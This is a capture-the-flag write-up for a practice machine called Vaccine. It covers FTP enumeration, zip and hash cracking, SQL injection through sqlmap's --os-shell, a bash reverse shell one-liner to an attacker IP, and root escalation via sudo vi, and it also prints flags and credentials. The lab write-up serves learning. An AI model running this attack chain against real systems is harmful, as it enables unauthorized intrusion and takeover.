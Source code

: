# Vaccine

## Initial Scan

```nmap
sudo nmap -T4 -Pn -sV -sC -v 10.129.248.153 -oA Vaccine
```

<figure><img src="../../../.gitbook/assets/image (559).png" alt=""><figcaption></figcaption></figure>

## Task 1

Besides SSH and HTTP, what other service is hosted on this box?

Answer: FTP

## Task 2

This service can be configured to allow login with any password for specific username. What is that username?

Answer: anonymous

## Task 3

What is the name of the file downloaded over this service?

```
ftp 10.129.248.153
```

<figure><img src="../../../.gitbook/assets/image (560).png" alt=""><figcaption></figcaption></figure>

Answer: backup.zip

## Task 4

What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

<figure><img src="../../../.gitbook/assets/image (561).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (562).png" alt=""><figcaption></figcaption></figure>

Answer: zip2john

## Task 5

What is the password for the admin user on the website?

<figure><img src="../../../.gitbook/assets/image (563).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (564).png" alt=""><figcaption></figcaption></figure>

backup.zip password:`41852963`&#x20;

<figure><img src="../../../.gitbook/assets/image (565).png" alt=""><figcaption></figcaption></figure>

Looking at index.html

<figure><img src="../../../.gitbook/assets/image (566).png" alt=""><figcaption></figcaption></figure>

Put the hash in a file and crack the hash with hashcat

```bash
hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../../.gitbook/assets/image (567).png" alt=""><figcaption></figcaption></figure>

Answer:qwerty789

## Task 6

What option can be passed to sqlmap to try to get command execution via the sql injection? Looking at `sqlmap -h`

<figure><img src="../../../.gitbook/assets/image (568).png" alt=""><figcaption></figcaption></figure>

Answer: --os-shell

## Task 7

What program can the postgres user run as root using sudo?

Get the cookie from the Website.

<figure><img src="../../../.gitbook/assets/image (569).png" alt=""><figcaption></figcaption></figure>

```bash
sqlmap -u 'http://10.129.248.153/dashboard.php?search=any+query' --cookie="PHPSESSID=n33tru7g83ed1hqdgfm42gnqic" --os-shell
```

We get our shell.

<figure><img src="../../../.gitbook/assets/image (570).png" alt=""><figcaption></figcaption></figure>

Start the listener and run

```
bash -c "bash -i >& /dev/tcp/10.10.14.9/443 0>&1"
```

<figure><img src="../../../.gitbook/assets/image (571).png" alt=""><figcaption></figcaption></figure>

Answer: vi

## Task 8

Submit user flag

<figure><img src="../../../.gitbook/assets/image (572).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (573).png" alt=""><figcaption></figcaption></figure>

Answer: ec9b13ca4d6229cd5cc1e09980965bf7

## Task 9

Submit root flag

Looking at files in the /var/www/html as there's this uses PHP. Looking in the dashboard.php file we see

<figure><img src="../../../.gitbook/assets/image (574).png" alt=""><figcaption></figcaption></figure>

`user=postgres password=P@s5w0rd!`

<figure><img src="../../../.gitbook/assets/image (575).png" alt=""><figcaption></figcaption></figure>

Looking at various options on [GTBOBins](https://gtfobins.github.io/gtfobins/vi/#sudo)

<figure><img src="../../../.gitbook/assets/image (576).png" alt=""><figcaption></figcaption></figure>

Open a file we could only do as sudo vi

```
type :shell=/bin/sh
ENTER
:shell
ENTER
```

<figure><img src="../../../.gitbook/assets/image (577).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (578).png" alt=""><figcaption></figcaption></figure>

Answer: dd6e058e814260bc70e9bbdef2715849
